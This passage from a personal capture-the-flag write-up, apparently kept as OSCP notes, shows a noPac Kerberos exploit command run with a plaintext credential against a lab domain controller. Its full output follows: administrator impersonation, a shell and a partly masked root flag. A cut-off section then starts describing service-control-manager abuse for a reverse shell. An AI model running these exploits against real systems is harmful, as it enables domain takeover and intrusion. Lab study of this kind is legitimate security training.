 due to `GetTGT error, error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)`

i now rerun:
```
python3 noPac.py return.local/svc-printer:'1edFg43012!!' -dc-ip 10.10.11.108 -shell --impersonate administrator -use-ldap

███    ██  ██████  ██████   █████   ██████ 
████   ██ ██    ██ ██   ██ ██   ██ ██      
██ ██  ██ ██    ██ ██████  ███████ ██      
██  ██ ██ ██    ██ ██      ██   ██ ██      
██   ████  ██████  ██      ██   ██  ██████ 
    
[*] Current ms-DS-MachineAccountQuota = 10
[*] Selected Target printer.return.local
[*] will try to impersonate administrator
[*] Adding Computer Account "WIN-GDBKHZJFOUG$"
[*] MachineAccount "WIN-GDBKHZJFOUG$" password = lpbpkN92IVgL
[*] Successfully added machine account WIN-GDBKHZJFOUG$ with password lpbpkN92IVgL.
[*] WIN-GDBKHZJFOUG$ object = CN=WIN-GDBKHZJFOUG,CN=Computers,DC=return,DC=local
[*] WIN-GDBKHZJFOUG$ sAMAccountName == printer
[*] Saving a DC's ticket in printer.ccache
[*] Reseting the machine account to WIN-GDBKHZJFOUG$
[*] Restored WIN-GDBKHZJFOUG$ sAMAccountName to original value
[*] Using TGT from cache
[*] Impersonating administrator
[*] 	Requesting S4U2self
[*] Saving a user's ticket in administrator.ccache
[*] Rename ccache to administrator_printer.return.local.ccache
[*] Attempting to del a computer with the name: WIN-GDBKHZJFOUG$
[-] Delete computer WIN-GDBKHZJFOUG$ Failed! Maybe the current user does not have permission.
[*] Pls make sure your choice hostname and the -dc-ip are same machine !!
[*] Exploiting..
[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>cd C:\Users\
[-] You can't CD under SMBEXEC. Use full paths.
C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
b2b30edfb0a9************
```

BANG !

ROOT PWNED!

---

### Another exploit:

from oxdf(love that guy, like this for my notes for oscp):

> Short summary

This is a compact, exam‑style write‑up describing how to escalate to **NT AUTHORITY\SYSTEM** by abusing the Windows Service Control Manager (SCM) with `sc.exe` to spawn a reverse shell (`nc64.exe`). Use this in lab/OSCP-style environments only. Replace IPs/paths for each box.

---
